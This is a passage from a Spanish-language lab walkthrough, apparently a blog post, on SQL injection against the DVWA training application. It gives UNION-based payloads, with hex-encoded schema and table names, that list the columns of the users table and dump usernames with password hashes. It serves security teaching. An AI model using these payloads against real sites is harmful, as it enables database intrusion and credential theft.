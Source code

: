 Así que ya tenemos las tablas:

- users
- guestbook

<br>

Ahora enumeraremos las columnas de estas tablas, usando la siguiente consulta:

`id=1' UNION SELECT GROUP_CONCAT(column_name),NULL FROM information_schema.columns WHERE table_schema = 0x64767761 AND table_name = 0x7573657273 -- -`

![i5](/assets/images/DVWA-SQLi/SQLi-hard/intercept5.png)

Y vemos que nos responde:

![r5](/assets/images/DVWA-SQLi/SQLi-hard/respuesta5.png)

Así que tenemos las columnas:

- user_id
- first_name
- last_name
- user
- password
- avatar
- last_login
- failed_login

<br>

Y por último dumpearemos los datos de las columnas que nos interesan, en este caso como sabemos user y password:

`id=1' UNION SELECT GROUP_CONCAT(user,'0x3a',password), NULL FROM dvwa.users -- -`

![i6](/assets/images/DVWA-SQLi/SQLi-hard/intercept6.png)

Esta consulta nos responderá:

![r6](/assets/images/DVWA-SQLi/SQLi-hard/respuesta6.png)
